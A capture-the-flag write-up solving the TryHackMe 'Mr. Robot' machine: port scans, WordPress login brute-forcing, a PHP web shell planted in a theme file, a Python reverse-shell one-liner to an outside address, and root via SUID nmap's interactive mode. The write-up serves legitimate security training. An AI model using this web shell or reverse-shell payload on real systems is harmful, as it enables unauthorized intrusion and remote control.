# [Mr. Robot CTF] - Writeup

**Platform:** TryHackMe
**Difficulty:** Medium

---

## 1. Introduction

This is a vulnerable Mr. Robot thematic boot2root machine, with the objective to obtain 3 keys, For more details follow the link: https://tryhackme.com/room/mrrobot

## 2. Reconnaissance

### 2.1 Port scan

I performed a full range port scan using the following command:

```
sudo nmap -sS -p- -Pn -T4 10.67.163.147
```



>I chose this approach with the goal of mapping all open ports, I opted to not do a banner grabbing of the services at the start.

After that, I did a port scan again with the discovered open ports:

```
sudo nmap -sSVC -p 22,80,443 -Pn -T4 10.67.163.147
```

I obtained this relevant information:

| PORT | STATE | SERVICE  | VERSION                          |
| ---- | ----- | -------- | -------------------------------- |
| 22   | open  | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80   | open  | http     | Apache httpd                     |
| 443  | open  | ssl/http | Apache httpd                     |

>I prefer to do the scan with banner grabbing and common scripts when I already know the ports.

### 2.2 Next steps decision

With the information obtained we can deduce that it is a web based machine, so as a next step I opted to perform a directory enumeration while I enumerate the ssh and read source code of the pages.

## 3. Enumeration

### 3.1 SSH (Port: 22)

I used a NSE Script to enumerate possibles authentication methods:

```
nmap --script ssh-auth-methods -p 22 10.67.163.147
```



Since password authentication is enabled for SSH, we can infer the possibility of a bruteforce attack or discover it through a vulnerability.

### 3.2 HTTP (Port: 80)

I performed directory enumeration using the following command:

```
gobuster dir -u http://10.67.163.147 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```



The enumeration returned a large number of results, I chose to focus first on robots.txt, looking at this file I found two things worth noting.



Looking first at the `key-1-of-3.txt` file, the first key is inside it:



After getting the first key, I went to the `fsociety.dic`, there is a list of words, I tried to perform a directory enum and I noticed repeated answers, so i did `sort -u fsociety.dic -o fsociety.txt`
and tried again, since I didn't find any relevant information I stopped a while to think what is the next step.

## 4. Foothold

I remembered that during the first directory enumeration I saw a directory `/wp-admin`, therefore, there is a WordPress installed here.
Analyzing the authentication page I noticed it discloses information about whether the username is correct, so i performed fuzzing using `fsociety.txt`.





After discovering the username, I did the same but in password field.



With credentials found I have access to admin page, now I started looking for an entry vector, in my search on the themes editor, I found an editable page: `404.php` in the `twentyfifteen` theme, so I inserted the following code: `<?php system($_GET['cmd']); ?>` and worked.

After that I started to enumerate how I can get a reverse shell:



I decided to try `nc` first but it was throwing a silent error, so I used `python` instead, which was available on the target, with the following payload: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.140.137",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`



While exploring the directories and files on the machine, I went to the home directory, where there was a user named 'robot' and I found the second key in his files, but there was a problem: I didn't have permission to read, however, next to this file there was another called `password.raw-md5`, which contained an MD5 hash.



Cracking the MD5 hash I obtained the password for the user 'robot':



With these credentials, i was able to log in via SSH, navigate to `key-2-of-3.txt`, and read the second flag:



## 5. Privesc

### 5.1 Privesc Enumeration

In this step I started with command `sudo -l`, result: user 'robot' don't have sudo permission in this machine, so I did `find / -perm -4000 2>/dev/null`, in the middle a large number of returned results I saw the `nmap` SUID, I found this binary unusual, so I decided to check the version.

### 5.2 Vulnerability Identify

The present version of `nmap` in this machine is `3.81`, looking in GTFOBins I saw that in versions earlier than `5.20`, it is vulnerable to a failure in interactive mode that allow invoke a shell that inherits root privileges.

### 5.3 Exploitation and Confirmation

- `/usr/local/bin/nmap --interactive`
- `!sh` in the interactive mode



